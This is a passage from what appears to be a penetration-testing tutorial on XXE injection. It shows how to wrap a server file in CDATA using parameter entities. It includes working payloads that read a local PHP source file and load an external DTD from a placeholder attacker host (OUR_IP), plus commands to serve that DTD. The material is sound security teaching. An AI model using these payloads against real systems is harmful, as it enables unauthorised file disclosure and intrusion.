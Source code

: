     Note: The expect module is not enabled/installed by default on modern PHP servers, so this attack may not always work. This is why XXE is usually used to disclose sensitive local files and source code, which may reveal additional vulnerabilities or ways to gain code execution.



# Exfiltration with CDATA

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a CDATA tag (e.g. `<![CDATA[ FILE_CONTENT ]]>)`. This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

One easy way to tackle this issue would be to define a begin internal entity with `<![CDATA[`, an end internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a CDATA element, as follows:

```
<!DOCTYPE email [
<!ENTITY begin "<![CDATA[">
<!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
<!ENTITY end "]]>">
<!ENTITY joined "&begin;&file;&end;">
]>
```
After that, if we reference the &joined; entity, it should contain our escaped data. However, `this will not work, since XML prevents joining internal and external entities`, so we will have to find a better way to do so.

To bypass this limitation, we can utilize XML Parameter Entities, a special type of entity that starts with a % character and can only be used within the DTD. If we reference them from an external source ( then all of them would be considered as external and can be joined, as follows:


- Define the dtd Document in our server

External Document:

`<!ENTITY joined "%begin;%file;%end;">`

- Start a listening server

```
    $ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd

    $ python3 -m http.server 8000
```
- First parameter is : `"<![CDATA["`

- Our file gets sandwitched

- Then the closing brackets `"]]>"`

- reference our external entity (xxe.dtd) 

- print the `&joined;` entity we defined above,php file, as follows:

```

<!DOCTYPE email [
<!ENTITY % begin "<![CDATA["> 
<!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> 
<!ENTITY % end "]]>"> 
<!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> 
%xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->

```
